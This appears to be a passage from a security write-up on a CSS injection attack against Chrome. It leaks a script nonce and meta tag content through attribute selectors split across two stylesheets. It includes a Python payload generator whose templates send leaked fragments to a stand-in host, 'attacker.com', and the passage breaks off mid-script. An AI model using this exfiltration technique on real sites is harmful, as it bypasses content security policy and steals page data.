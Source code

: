 ### The Banana (CSS) Split

Now a little desperate, and with my partner rightfully grumpy about a grown man staring at CSS and not sleeping, I decided to take a pause and turn in for the night. An idea came to me when I was laying in bed that night right before I slept --- if Chrome had issues loading one file, why not just split the file across multiple files? Upon waking up, I realized that we had a pretty decent budget of 3 link elements that we could include in our initial payload, which might give us enough leeway to not cause a buffer overflow when loading our CSS.

I decided to put this to the test, to try and see if I could split the file up into 3 files, each with just enough that CSS selectors that Chrome could still continue to function. With a bit of binary search magic, I managed to get to a happy point pretty quickly at around 25000 CSS selectors, split across two files - `first.css` and `second.css` but both applying a single `background` on the `meta` element.

{% highlight html %}
<link href="https://unpkg.com/YOUR_PAYLOAD@1.0.0/first.css" rel="stylesheet" />
<link href="https://unpkg.com/YOUR_PAYLOAD@1.0.0/second.css" rel="stylesheet" />
{% endhighlight %}

But we are still not done here, after splitting the selectors across two styles, ***only one of the files seem to be firing at any given time***. This frustrated me for some time, because in my previous testing I observed two different files should both be able to apply their styles  even if it was on the same DOM element. What I guess is happening is that the loading of the CSS takes so friggin' long that both CSS files are evaluated concurrently, meaning that the final `background` value will cascade to just a single value.

One thought I had was that I could use a different exfiltration property (perhaps maybe [mask-image](https://developer.mozilla.org/en-US/docs/Web/CSS/mask-image) or [border-image](https://developer.mozilla.org/en-US/docs/Web/CSS/border-image) or even [list-style-image](https://developer.mozilla.org/en-US/docs/Web/CSS/list-style-image)), but I couldn't get any of these to work.

As frustration grows, a teammate pointed out that he could leak the `script` element `nonce` value using CSS. I was shooked at first, then shocked; I didn't believe it at first but I tried it and...

It actually worked. Don't ask me how or why, but it seems like this behavior is expected.

This then greatly simplifies our attack, because now we have to places for our CSS selectors to act on, one for each file! All we have to do is leak the first two and last two characters of the nonce through the `script` element `nonce` CSS selectors, and spread our tri-gram selectors for the `script` and `meta` tag across the two files respectively.

The final CSS payload constructor looks something like this:

{% highlight python %}
#!/usr/bin/env python3

import itertools

URL = "https://attacker.com"

TEMPLATE_START = '''*{display:block} script[nonce^="%s"]{
    --props_%s: url(%s?START=%s);
}
'''

TEMPLATE_MATCH = '''*{display:block} script[nonce*="%s"]{
    --prop_%s: url(%s?MATCH=%s);
}
'''

TEMPLATE_END = '''*{display:block} script[nonce$="%s"]{
    --prope_%s: url(%s?END=%s);
}
'''

TEMPLATE_META =  '''*{display:block} meta[content*="%s"]{
    --prop_%s: url(%s?MATCH=%s);
}
'''
